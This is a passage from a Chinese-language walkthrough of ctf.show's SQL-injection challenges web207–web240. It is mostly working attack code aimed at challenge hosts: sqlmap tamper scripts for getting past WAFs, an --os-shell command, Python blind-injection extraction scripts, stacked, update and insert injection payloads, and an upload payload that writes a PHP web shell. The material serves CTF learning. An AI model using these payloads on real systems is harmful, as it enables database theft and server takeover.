                if payload[i].isspace():
                    firstspace = True
                    retVal += chr(0x0a)
                    continue

            elif payload[i] == '\'':
                # 取反quote的值
                quote = not quote

            elif payload[i] == '"':
                # 取反doublequote的值
                doublequote = not doublequote

            elif payload[i] == " " and not doublequote and not quote:
                retVal += chr(0x0a)
                continue

            retVal += payload[i]

    return retVal
```

其实这段代码的目的就是将payload中的空格替换成换行符

其实直接用sqlmap自带的sapce2comment模板

```
sqlmap -u "http://7bf5dfc3-3078-441f-b245-64dab6933839.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=btkhe9vojj5a7piadlc51ubifk;" --referer=ctf.show -D ctfshow_web --safe-url="http://7bf5dfc3-3078-441f-b245-64dab6933839.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=space2comment -T ctfshow_flaxca --dump
```


#### web208

同上一题

```
sqlmap -u "http://f287c31a-5cae-478d-af39-de7010c92def.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=3e08elobpci83dm5l8mn4hd18k;" --referer=ctf.show -D ctfshow_web --safe-url="http://f287c31a-5cae-478d-af39-de7010c92def.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=space2comment -T ctfshow_flaxcac --dump
```


#### web209

这题新增了点waf

```
查询语句

//拼接sql语句查找指定ID用户
$sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 0,1;";
      
返回逻辑

//对传入的参数进行了过滤
  function waf($str){
   //TODO 未完工
   return preg_match('/ |\*|\=/', $str);
  }
```

Y4tacker大佬的tamper

```python
#!/usr/bin/env python
"""
Author:Y4tacker
"""

from lib.core.compat import xrange
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW


def tamper(payload, **kwargs):
    payload = space2comment(payload)
    return payload


def space2comment(payload):
    retVal = payload
    if payload:
        retVal = ""
        quote, doublequote, firstspace = False, False, False

        for i in xrange(len(payload)):
            if not firstspace:
                if payload[i].isspace():
                    firstspace = True
                    retVal += chr(0x0a)
                    continue

            elif payload[i] == '\'':
                quote = not quote

            elif payload[i] == '"':
                doublequote = not doublequote

            elif payload[i] == "*":
                retVal += chr(0x31)
                continue

            elif payload[i] == "=":
                retVal += chr(0x0a)+'like'+chr(0x0a)
                continue

            elif payload[i] == " " and not doublequote and not quote:
                retVal += chr(0x0a)
                continue

            retVal += payload[i]

    return retVal


```

其实也不用写这么复杂

直接这样也ok的

```python
#!/usr/bin/env python

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass


def tamper(payload, **kwargs):
    return payload.replace("=", " like ").replace(" ", chr(0x09))
```

payload:

```
python sqlmap.py -u "http://aaa64ad5-5bc1-470b-b485-0549641a1327.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=3oemcboib377tes0fi7ltgh9ba;" --referer=ctf.show -D ctfshow_web --safe-url="http://aaa64ad5-5bc1-470b-b485-0549641a1327.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=web209 -T ctfshow_flav --dump
```


#### web210

```
查询语句

//拼接sql语句查找指定ID用户
$sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 0,1;";
      
返回逻辑

//对查询字符进行解密
  function decode($id){
    return strrev(base64_decode(strrev(base64_decode($id))));
  }
      
```

这题会对查询的字符进行两次的base64解密和两次的反转

那我们只需要修改tamper，使传入的payload进行两次base64加密即可

```python
#!/usr/bin/env python

from lib.core.enums import PRIORITY
import base64

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass


def tamper(payload, **kwargs):
    rev1 = payload[::-1].encode()
    encode1 = base64.b64encode(rev1).decode()
    rev2 = encode1[::-1].encode()
    encode2 = base64.b64encode(rev2).decode()
    return encode2
```

payload:


```
python sqlmap.py -u "http://35600981-0e61-43e6-85ce-38d9cc6eeaf5.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=bffum6tr2u1k3h8l9bgtkst4ni;" --referer=ctf.show -D ctfshow_web --safe-url="http://35600981-0e61-43e6-85ce-38d9cc6eeaf5.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=web210 -T ctfshow_flavi --dump
```


#### web211

```
查询语句

//拼接sql语句查找指定ID用户
$sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 0,1;";
      
返回逻辑

//对查询字符进行解密
  function decode($id){
    return strrev(base64_decode(strrev(base64_decode($id))));
  }
function waf($str){
    return preg_match('/ /', $str);
}

```

增加了空格waf

问题不大

```python
#!/usr/bin/env python

from lib.core.enums import PRIORITY
import base64

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass


def tamper(payload, **kwargs):
	
    payload0 = payload.replace(" ", chr(0x09))
    rev1 = payload0[::-1].encode()
    encode1 = base64.b64encode(rev1).decode()
    rev2 = encode1[::-1].encode()
    encode2 = base64.b64encode(rev2).decode()
    return encode2
```

payload

```
python sqlmap.py -u "http://f9c9297a-3dc9-496e-8d15-33e170db0df8.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=ibn3o3imhq85l1043f80nbdova;" --referer=ctf.show -D ctfshow_web --safe-url="http://f9c9297a-3dc9-496e-8d15-33e170db0df8.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=web211 -T ctfshow_flavia --dump
```


#### web212

```python
查询语句

//拼接sql语句查找指定ID用户
$sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 0,1;";
      
返回逻辑

//对查询字符进行解密
  function decode($id){
    return strrev(base64_decode(strrev(base64_decode($id))));
  }
function waf($str){
    return preg_match('/ |\*/', $str);
}
```

waf增加了*

但是不影响上一题的tamper

```
python sqlmap.py -u "http://2055229c-7666-493e-9329-2cdc56d820ed.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=72duisds4cprdqlbtf4fu4389d;" --referer=ctf.show -D ctfshow_web --safe-url="http://2055229c-7666-493e-9329-2cdc56d820ed.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=web211 -T ctfshow_flavis --dump
```


#### web213

```php
查询语句

//拼接sql语句查找指定ID用户
$sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 0,1;";
      
返回逻辑

//对查询字符进行解密
  function decode($id){
    return strrev(base64_decode(strrev(base64_decode($id))));
  }
function waf($str){
    return preg_match('/ |\*/', $str);
}
```

根据提示，用--os-shell拿到shell读flag

其他跟上题一样

payload:

```
python sqlmap.py -u "http://341989d1-8945-4c5d-b70e-2d69a0f850b1.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=66ddslui3ejn3b4pa6437qm60j;" --referer=ctf.show --safe-url="http://341989d1-8945-4c5d-b70e-2d69a0f850b1.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=web211 --os-shell
```


#### 时间盲注

#### web214



这道题没给出注入点



主页找到select.js中，测试后发现ip为注入点

```python
import requests

url = "http://fe78d582-57da-4291-845f-1e8ff2936104.challenge.ctf.show/api/"
result = ""
i = 0

while True:
    i = i + 1
    # ASCII码范围，32到127是可打印字符的范围
    head = 32
    tail = 127

    while head < tail:
        # 二分查找的中间值
        mid = (head + tail) >> 1
		# 查表名
        # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 查列名
        # payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagx'"
        # 爆字段
        payload = "select flaga from ctfshow_flagx"
        data = {
            'ip': f"if(ascii(substr(({payload}),{i},1))>{mid},sleep(1),1)",
            'debug': '0'
        }
        try:
            # 发送POST请求，设置超时时间为1秒
            r = requests.post(url, data=data, timeout=1)
            # 如果请求在1秒内返回，说明当前位置字符的ASCII码小于等于中间值
            tail = mid
        except requests.exceptions.Timeout:
            # 如果请求超时，说明当前位置字符的ASCII码大于中间值
            head = mid + 1
        except Exception as e:
            print(f"An unexpected error occurred: {e}")
            break

    if head != 32:
        # 如果找到有效的字符，将其添加到结果字符串中
        result += chr(head)
    else:
        # 如果没有找到有效字符，退出循环
        break
    print("[*]Result : "+result)
```


#### web215


上题脚本改一改


```python
import requests

url = "http://08e16d35-1a8c-4ed7-9e9e-760a32aa0756.challenge.ctf.show/api/"
result = ""
i = 0

while True:
    i = i + 1
    # ASCII码范围，32到127是可打印字符的范围
    head = 32
    tail = 127

    while head < tail:
        # 二分查找的中间值
        mid = (head + tail) >> 1
		# 查表名
        payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 查列名
        # payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagx'"
        # 爆字段
        # payload = "select flaga from ctfshow_flagx"
        data = {
            'ip': f"1' or if(ascii(substr(({payload}),{i},1))>{mid},sleep(1),1)#",
            'debug': '0'
        }
        try:
            # 发送POST请求，设置超时时间为1秒
            r = requests.post(url, data=data, timeout=1)
            # 如果请求在1秒内返回，说明当前位置字符的ASCII码小于等于中间值
            tail = mid
        except requests.exceptions.Timeout:
            # 如果请求超时，说明当前位置字符的ASCII码大于中间值
            head = mid + 1
        except Exception as e:
            print(f"An unexpected error occurred: {e}")
            break

    if head != 32:
        # 如果找到有效的字符，将其添加到结果字符串中
        result += chr(head)
    else:
        # 如果没有找到有效字符，退出循环
        break
    print("[*]Result : "+result)
```


#### web216



构造闭合即可

```python
import requests

url = "http://d3d3aa4e-87f5-454c-b589-826971f59bbb.challenge.ctf.show/api/"
result = ""
i = 0

while True:
    i = i + 1
    # ASCII码范围，32到127是可打印字符的范围
    head = 32
    tail = 127

    while head < tail:
        # 二分查找的中间值
        mid = (head + tail) >> 1
		# 查表名
        # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 查列名
        # payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxcc'"
        # 爆字段
        payload = "select flagaac from ctfshow_flagxcc"
        data = {
            'ip': f"'') or if(ascii(substr(({payload}),{i},1))>{mid},sleep(1),1)#",
            'debug': '0'
        }
        try:
            # 发送POST请求，设置超时时间为1秒
            r = requests.post(url, data=data, timeout=1)
            # 如果请求在1秒内返回，说明当前位置字符的ASCII码小于等于中间值
            tail = mid
        except requests.exceptions.Timeout:
            # 如果请求超时，说明当前位置字符的ASCII码大于中间值
            head = mid + 1
        except Exception as e:
            print(f"An unexpected error occurred: {e}")
            break

    if head != 32:
        # 如果找到有效的字符，将其添加到结果字符串中
        result += chr(head)
    else:
        # 如果没有找到有效字符，退出循环
        break
    print("[*]Result : "+result)
```


#### web217


这题waf了sleep

可以改用benchmark

> - 在 MySQL 中，`benchmark`函数用于测试表达式执行的性能。它的语法是`benchmark(count,expr)`，其中`count`是要执行`expr`的次数，`expr`是要测试的表达式。
> - 例如，`benchmark(10000000,sha(1))`表示将`sha(1)`这个表达式执行 10000000 次。`sha(1)`是计算字符串`'1'`的 SHA - 1 哈希值。

```python
import requests
import time

url = "http://b5d4a386-1612-4c40-b14c-e9103a54188c.challenge.ctf.show/api/"
result = ""
i = 0

while True:
    i = i + 1
    # ASCII码范围，32到127是可打印字符的范围
    head = 32
    tail = 127

    while head < tail:
        # 二分查找的中间值
        mid = (head + tail) >> 1
        # 查数据库
        # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 查列名字
        # payload = "select column_name from information_schema.columns where table_name='ctfshow_flagxccb' limit 1,1"
        # 查数据
        payload = "select flagaabc from ctfshow_flagxccb"
        data = {
            'ip': f"1) or if(ascii(substr(({payload}),{i},1))>{mid},benchmark(1000000,sha(1)),1)#",
            'debug': '0'
        }
        try:
            # 发送POST请求，设置超时时间为1秒
            r = requests.post(url, data=data, timeout=0.33)
            # 如果请求在1秒内返回，说明当前位置字符的ASCII码小于等于中间值
            time.sleep(1)
            tail = mid
        except requests.exceptions.Timeout:
            # 如果请求超时，说明当前位置字符的ASCII码大于中间值
            time.sleep(1)
            head = mid + 1
        except Exception as e:
            time.sleep(1)
            print(f"An unexpected error occurred: {e}")
            break

    if head != 32:
        # 如果找到有效的字符，将其添加到结果字符串中
        result += chr(head)
    else:
        # 如果没有找到有效字符，退出循环
        break

    print("[*]Result : "+result)
```

benchmark的设置比较苛刻，要多试试

最好不要设置太大，环境会崩


#### web218

```php
查询语句

       where id = ($id);
      
返回逻辑

    //屏蔽危险分子
    function waf($str){
        return preg_match('/sleep|benchmark/i',$str);
    }   
      
```

这题sleep和benchmark都被ban掉了

可以考虑用笛卡尔积盲注

参考文章：[SQL注入经验-大负荷注入-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/1601686)

```python
import requests
import time

url = "http://a17ea2c9-7463-4d5a-bfa5-2f6bdcd2daf1.challenge.ctf.show/api/"
result = ""
i = 0

while True:
    i = i + 1
    # ASCII码范围，32到127是可打印字符的范围
    head = 32
    tail = 127

    while head < tail:
        # 二分查找的中间值
        mid = (head + tail) >> 1

        # payload = "select table_name from information_schema.tables where table_schema=database() limit 0,1"
        # payload = "select column_name from information_schema.columns where table_name='ctfshow_flagxc' limit 1,1"
        payload = "select flagaac from ctfshow_flagxc"
        data = {
            'ip': f"1) or if(ascii(substr(({payload}),{i},1))>{mid},(select count(*) from information_schema.columns A, information_schema.columns B),1)#",
            'debug': '1'
        }
        try:
            # 发送POST请求，设置超时时间为1秒
            r = requests.post(url, data=data, timeout=0.15)
            # 如果请求在1秒内返回，说明当前位置字符的ASCII码小于等于中间值
            time.sleep(0.2)
            tail = mid
        except requests.exceptions.Timeout:
            # 如果请求超时，说明当前位置字符的ASCII码大于中间值
            time.sleep(0.2)
            head = mid + 1
        except Exception as e:
            time.sleep(0.2)
            print(f"An unexpected error occurred: {e}")
            break

    if head != 32:
        # 如果找到有效的字符，将其添加到结果字符串中
        result += chr(head)
    else:
        # 如果没有找到有效字符，退出循环
        break

    print("[*]Result : "+result)

# ctfshow{d317911f-ac1e-4160-be70-47d01a0f2f45}

```

乱码的话，多跑几次就好了

另一种方法就是通过正则 DOS RLIKE注入

利用 SQL 多次计算正则消耗计算资源产生延时效果，与 benchmark 原理类似，通过 rpad 或 repeat 构造长字符串，以计算量大的 pattern。

```
debug=1&ip=repeat(rpad('a', 999999, 'a'),16) rlike concat(repeat('(a.*)+',14), 'b')
```


#### web219

```
查询语句

       where id = ($id);
      
返回逻辑

    //屏蔽危险分子
    function waf($str){
        return preg_match('/sleep|benchmark|rlike/i',$str);
    }   
      
```

继续使用笛卡尔积盲注即可

```python
import requests
import time

url = "http://61d55d79-847e-43d7-80e4-c221ceae9f4a.challenge.ctf.show/api/"
result = ""
i = 0

while True:
    i = i + 1
    # ASCII码范围，32到127是可打印字符的范围
    head = 32
    tail = 127

    while head < tail:
        # 二分查找的中间值
        mid = (head + tail) >> 1

        # payload = "select table_name from information_schema.tables where table_schema=database() limit 0,1"
        # payload = "select column_name from information_schema.columns where table_name='ctfshow_flagxca' limit 1,1"
        payload = "select flagaabc from ctfshow_flagxca"

        data = {
            'ip': f"1) or if(ascii(substr(({payload}),{i},1))>{mid},(select count(*) from information_schema.columns A, information_schema.columns B),1)#",
            'debug': '1'
        }
        try:
            # 发送POST请求，设置超时时间为1秒
            r = requests.post(url, data=data, timeout=0.15)
            # 如果请求在1秒内返回，说明当前位置字符的ASCII码小于等于中间值
            time.sleep(0.2)
            tail = mid
        except requests.exceptions.Timeout:
            # 如果请求超时，说明当前位置字符的ASCII码大于中间值
            time.sleep(0.2)
            head = mid + 1
        except Exception as e:
            time.sleep(0.2)
            print(f"An unexpected error occurred: {e}")
            break

    if head != 32:
        # 如果找到有效的字符，将其添加到结果字符串中
        result += chr(head)
    else:
        # 如果没有找到有效字符，退出循环
        break

    print("[*]Result : "+result)


```


#### web220

```
查询语句

       where id = ($id);
      
返回逻辑

    //屏蔽危险分子
    function waf($str){
        return preg_match('/sleep|benchmark|rlike|ascii|hex|concat_ws|concat|mid|substr/i',$str);
    }   
      
```

substr用left代替即可，有点像之前布尔盲注的一道题，只是改成了时间盲注罢了


```python
import requests
import string
import time

url = "http://52728b9a-ffae-4f96-b51f-0549bb5cb4e0.challenge.ctf.show/api/"
str=" _{}-" + string.ascii_lowercase + string.digits
result = ''
for i in range(1,45):
    for j in str:
        # payload = "select table_name from information_schema.tables where table_schema=database() limit 0,1"
        # payload = "select column_name from information_schema.columns where table_name='ctfshow_flagxcac' limit 1,1"
        payload = "select flagaabcc from ctfshow_flagxcac"

        data = {
            'ip': f"1) or if(LEFT(({payload}),{i})regexp('{result+j}'),(select count(*) from information_schema.columns A, information_schema.columns B),1)#",
            'debug': 0
        }
        try:
            r = requests.post(url, data=data, timeout=0.15)
            time.sleep(0.2)
        except Exception as e:
            time.sleep(0.2)
            result = result + j
            print("[*] loading :"+result)
            break

print("[*] result :"+result)

```


#### web221

```php
查询语句

  //分页查询
  $sql = select * from ctfshow_user limit ($page-1)*$limit,$limit;
      
返回逻辑

//TODO:很安全，不需要过滤
//拿到数据库名字就算你赢
```

p神的文章有提到limit注入

[[转载]Mysql下Limit注入方法 | 离别歌](https://www.leavesongs.com/PENETRATION/sql-injections-in-mysql-limit-clause.html)



payload:

```
?page=1&limit=1%20procedure%20analyse(extractvalue(rand(),concat(0x3a,database())),1)
```



#### group注入

#### web222

```
查询语句

  //分页查询
  $sql = select * from ctfshow_user group by $username;
      
返回逻辑

//TODO:很安全，不需要过滤
```



group by 可以进行时间盲注，布尔盲注等

本来以为是报错注入的，发现好像不太行

还是的时间盲注

拿前面的盲注脚本改一改

```python
import requests
import time
url = "http://529d9311-c036-4831-bfa1-b2ca91dae190.challenge.ctf.show/api/?u="
result = ""
i = 0

while True:
    i = i + 1
    # ASCII码范围，32到127是可打印字符的范围
    head = 32
    tail = 127

    while head < tail:
        # 二分查找的中间值
        mid = (head + tail) >> 1
        # 查表名
        # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 查列名字
        # payload = "select column_name from information_schema.columns where table_name='ctfshow_flaga' limit 1,1"
        # 爆字段
        payload = "select flagaabc from ctfshow_flaga"

        data = f"concat((if (ascii(substr(({payload}),{i},1))>{mid}, sleep(0.05), 2)), 1);"

        try:
            r = requests.post(url+data, timeout=0.05)
            time.sleep(0.2)
            tail = mid
        except requests.exceptions.Timeout:
            time.sleep(0.2)
            # 如果请求超时，说明当前位置字符的ASCII码大于中间值
            head = mid + 1
        except Exception as e:
            time.sleep(0.2)
            print(f"An unexpected error occurred: {e}")
            break

    if head != 32:
        # 如果找到有效的字符，将其添加到结果字符串中
        result += chr(head)
    else:
        # 如果没有找到有效字符，退出循环
        break
    print("[*]Result : "+result)
```


#### web223

```php
查询语句

  //分页查询
  $sql = select * from ctfshow_user group by $username;
      
返回逻辑

//TODO:很安全，不需要过滤
//用户名不能是数字
```

这题ban掉了数字

用true来构造出数字即可

这题一开始我想用时间盲注的，但是跑不出来，后面直接拿y4✌的布尔盲注跑了

如下

```python
import requests
import time
url = "http://14dc1900-f046-44e8-bfa2-e93fbc2a32b3.challenge.ctf.show/api/?u="
result = ""
i = 0

def createNum(n):
    num = 'true'
    if n == 1:
        return 'true'
    else:
        for i in range(n - 1):
            num += "+true"
    return num

while True:
    i = i + 1
    # ASCII码范围，32到127是可打印字符的范围
    head = 32
    tail = 127

    while head < tail:
        # 二分查找的中间值
        mid = (head + tail) >> 1
        
        # 查数据库-ctfshow_flagas
        # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 查字段-flagasabc
        # payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagas'"
        # 查flag
        payload = "select flagasabc from ctfshow_flagas"


        params = {
            # "u": f"if(ascii(substr(({payload}),{createNum(i)},{createNum(1)}))>{createNum(mid)},sleep(true),true)"  #时间盲注 （我没跑出来，不知道为啥
            "u": f"if(ascii(substr(({payload}),{createNum(i)},{createNum(1)}))>{createNum(mid)},username,'a')" #布尔盲注
        }

        # try:
        #     r = requests.post(url,params=params,timeout=1)
        #     tail = mid
        # except Exception as e:
        #     head = mid + 1

        r = requests.get(url, params=params)
        if "userAUTO" in r.text:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        # 如果找到有效的字符，将其添加到结果字符串中
        result += chr(head)
    else:
        # 如果没有找到有效字符，退出循环
        break

    print(result)


```

布尔盲注这么快，我为什么要想不开尝试时间盲注呢


#### web224



试了试万能密码，失败了

访问/robots.txt

发现有重置密码的路由


修改密码之后登入，看到一个文件上传



[ctfshow web224 sql_文件上传产生sql注入 详解_sql注入漏洞ctf文件上传-CSDN博客](https://blog.csdn.net/weixin_48083470/article/details/120608011)

这是一道文件上传的sql注入题

当文件上传时，后台会将文件名，文件路径，文件类型（文件头）直接与sql语句进行拼接

所以我们可以构造一个恶意文件，将文件头改写成我们要拼接的sql语句，从而实现注入

如图


payload:

```
C64File "');select 0x3c3f3d60746163202f662a603f3e into outfile '/var/www/html/1.php';--+
```


新建文本，写入payload，改名为1.bin，上传文件，访问1.bin拿到flag


#### 堆叠注入

#### web225

没有过滤show

```
username=1';show tables;
```


可以用handler读

payload:

```
username=ctfshow';show tables;handler ctfshow_flagasa open;handler ctfshow_flagasa read first;
```


> 1.`handler ctfshow_flag as a open;`
>
> `HANDLER` 语句是 MySQL 中用于直接操作表的一种特殊方式。此语句的作用是打开一个名为 `ctfshow_flag` 的表，并将其别名为 `a`。`HANDLER` 语句可以绕过一些常规的查询机制，直接访问表的数据，通常用于高效地获取数据。
>
> 2.`handler ctfshow_flag as a read first;`
>
> 该语句继续使用 `HANDLER` 来操作之前打开的 `ctfshow_flag` 表（别名 `a`），`read first` 表示读取表中的第一行数据。


其他方法




#### web226

```php
查询语句

  //分页查询
  $sql = "select id,username,pass from ctfshow_user where username = '{$username}';";
      
返回逻辑

  //师傅说过滤的越多越好
  if(preg_match('/file|into|dump|union|select|update|delete|alter|drop|create|describe|set|show|\(/i',$username)){
    die(json_encode($ret));
  }
```

这道题把show给waf掉了

这题可以用预处理来打

[[SQL注入\][强网杯 2019]随便注(三种姿势)-CSDN博客](https://blog.csdn.net/solitudi/article/details/107823398?ops_request_misc=%7B%22request%5Fid%22%3A%22160652999219721940215459%22%2C%22scm%22%3A%2220140713.130102334.pc%5Fblog.%22%7D&request_id=160652999219721940215459&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_v2~rank_blog_default-1-107823398.pc_v2_rank_blog_default&utm_term=强网杯&spm=1018.2118.3001.4450)

格式

```
PREPARE name from '[my sql sequece]';   //预定义SQL语句
EXECUTE name;  //执行预定义SQL语句
(DEALLOCATE || DROP) PREPARE name;  //删除预定义SQL语句
```

我们可以先将要执行的语句转换成16进制后，作为预处理的sql语句传入，并执行

payload

```
username=1';PREPARE tables from 0x73686f77207461626c6573;EXECUTE tables;
//show tables

username=1';PREPARE columns from 0x73656c6563742067726f75705f636f6e63617428636f6c756d6e5f6e616d65292066726f6d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73207768657265207461626c655f736368656d613d6461746162617365282920616e64207461626c655f6e616d653d2763746673685f6f775f666c6167617327;EXECUTE columns;
//select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='ctfsh_ow_flagas'

username=1';PREPARE flag from 0x73656c65637420666c61676173622066726f6d2063746673685f6f775f666c61676173;EXECUTE flag;
//select flagasb from ctfsh_ow_flagas
//ctfshow{7d0038e7-cede-48cc-b0fb-307177d26890}
```


#### web227

这道题没办法通过查表拿到flag

这道题的payload是

```
1';call getFlag();
```

就是执行getFlag函数拿到flag

但问题是我们要怎么知道这个函数呢

我们需要查看MySQL的存储过程，如下文

[MySQL——查看存储过程和函数_mysql 查询function-CSDN博客](https://blog.csdn.net/qq_41573234/article/details/80411079)


```
SELECT * FROM information_schema.Routines
```

通过预处理执行

```
username=1';PREPARE Routines from 0x53454c454354202a2046524f4d20696e666f726d6174696f6e5f736368656d612e526f7574696e6573;EXECUTE Routines;
```



可以看到getFlag函数和flag

#### web228

```
查询语句

  //分页查询
  $sql = "select id,username,pass from ctfshow_user where username = '{$username}';";
  $bansql = "select char from banlist;";
      
返回逻辑

  //师傅说内容太多，就写入数据库保存
  if(count($banlist)>0){
    foreach ($banlist as $char) {
      if(preg_match("/".$char."/i", $username)){
        die(json_encode($ret));
      }
    }
  }
```

同web226


#### web229

同web226


#### web230

同web226


#### update注入




#### web231

```
查询语句

  //分页查询
  $sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";
      
返回逻辑

  //无过滤

      
```

知道update函数的作用之后就好理解了

可以通过update函数更新ctfshow_user表中的内容

利用update将查询结果写入表中

```
password=1',username=(select group_concat(table_name) from information_schema.tables where table_schema=database()) where 1=1#&username=1
```



```
查表名
password=1',username=(select group_concat(table_name) from information_schema.tables where table_schema=database()) where 1=1#&username=1
查列名
password=1',username=(select group_concat(column_name) from information_schema.columns where table_name='flaga') where 1=1#&username=1
得到flag
password=1',username=(select flagas from flaga) where 1=1#&username=1
                      
原文链接：https://blog.csdn.net/solitudi/article/details/110144623
```


#### web232

```
查询语句

  //分页查询
  $sql = "update ctfshow_user set pass = md5('{$password}') where username = '{$username}';";
      
返回逻辑

  //无过滤
```

同web231

```
password=1'),username=(select group_concat(table_name) from information_schema.tables where table_schema=database()) where 1=1#&username=1

password=1'),username=(select group_concat(column_name) from information_schema.columns where table_name='flagaa') where 1=1#&username=1

password=1'),username=(select flagass from flagaa) where 1=1#&username=1
```


#### web233

```
查询语句

  //分页查询
  $sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";
      
返回逻辑

  //无过滤

```

这道题貌似waf掉了单引号，导致无法构造闭合，前面的方法用不了

##### 方法一

wp看到的骚操作



payload

```
#获取表名
password=\&username=,username=(select group_concat(table_name) from information_schema.tables where table_schema=database())%23

#获取列名
password=\&username=,username=(select group_concat(column_name) from information_schema.columns where table_schema=database())%23

#获取数据
password=\&username=,username=(select group_concat(flagass233) from flag233333)
```


##### 方法二 ：盲注

```python
"""
Author:Y4tacker
"""
import requests

url = "http://4f5b7639-6d01-45c4-9610-e11239ba8c90.chall.ctf.show/api/?page=1&limit=10"

result = ""
i = 0

while 1:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) >> 1
        # 查数据库
        # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 查表名
        # payload = "select column_name from information_schema.columns where table_name='flag233333' limit 1,1"
        # 查数据
        payload = "select flagass233 from flag233333"
        data = {
            'username': f"1' or if(ascii(substr(({payload}),{i},1))>{mid},sleep(0.05),1)#",
            'password': '4'
        }
        try:
            r = requests.post(url, data=data, timeout=0.9)
            tail = mid
        except Exception as e:
            head = mid + 1
    if head != 32:
        result += chr(head)
    else:
        break
    print(result)
```


#### web234

```
查询语句

  //分页查询
  $sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";
      
返回逻辑

  //无过滤

```

同web233，用\实现逃逸


#### web235

```php
查询语句

  //分页查询
  $sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";
      
返回逻辑

  //过滤 or ' 

```

**or '** 被禁导致inf**or**mation_schema.tables也被禁了

导致我们没办法查询列

这种情况涉及到一个知识点 ：[CTF|mysql之无列名注入 - 知乎](https://zhuanlan.zhihu.com/p/98206699)

> 在 information_schema 中，除了 SCHEMATA、TABLES、COLUMNS 有表信息外，高版本的 mysql 中，还有 INNODB_TABLES 及 [INNODB_COLUMNS](https://zhida.zhihu.com/search?content_id=109954541&content_type=Article&match_order=1&q=INNODB_COLUMNS&zhida_source=entity) 中记录着表结构。

读表

```
username=,username=(select group_concat(table_name) from mysql.innodb_table_stats where database_name=database())#&password=\
```

查字段

```
username=,username=(select b from (select 1,2 as b,3 union select * from flag23a1 limit 1,1)a)#&password=\
```


#### web236

```php
查询语句

  //分页查询
  $sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";
      
返回逻辑

  //过滤 or ' flag
```

读表

```
username=,username=(select group_concat(table_name) from mysql.innodb_table_stats where database_name=database())#&password=\

//banlist,ctfshow_user,flaga
```

读字段

```
username=,username=(select b from (select 1,2 as b,3 union select * from flaga limit 1,1)a)#&password=\
```

这题新增的flag过滤，但是实际上没有影响，或许是过滤返回的内容？


#### insert注入

#### web237

```php
查询语句

  //插入数据
  $sql = "insert into ctfshow_user(username,pass) value('{$username}','{$password}');";
      
返回逻辑

  //无过滤
```

insert函数用于插入值

其实跟update注入差不多

payload:

读表名

```
password=1&username=1',(select group_concat(table_name) from information_schema.tables where table_schema=database()));#
```



查列名

```
password=1&username=1',(select group_concat(column_name) from information_schema.columns where table_name='flag'));#

//id,flagass23s3,info
```

爆字段

```
password=1&username=1',(select flagass23s3 from flag));#
```


#### web238

```php
查询语句

  //插入数据
  $sql = "insert into ctfshow_user(username,pass) value('{$username}','{$password}');";
      
返回逻辑

  //过滤空格

```

测了一下发现不止是空格，连同一些代替空格的字符也被一同waf了，比如/**/

我们可以考虑**用括号代替空格**

payload

```
#获取表名
username=1',(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())))%23&password=1

#获取列名
username=1',(select(group_concat(column_name))from(information_schema.columns)where(table_name='flagb')))%23&password=1

#获取数据
username=1',(select(group_concat(flag))from(flagb)))%23&password=1

```


#### web239

```
查询语句

  //插入数据
  $sql = "insert into ctfshow_user(username,pass) value('{$username}','{$password}');";
      
返回逻辑

  //过滤空格 or 
```


payload:

读表

```
username=1',(select(group_concat(table_name))from(mysql.innodb_table_stats)where(database_name=database())))#&password=1
```

由于*被ban掉了，没办法用之前无列名爆字段的方法

这里猜测列名为flag，直接读

```
username=1',(select(flag)from(flagbb)))#&password=1
```


#### web240

```
Hint: 表名共9位，flag开头，后五位由a/b组成，如flagabaab，全小写
```

```
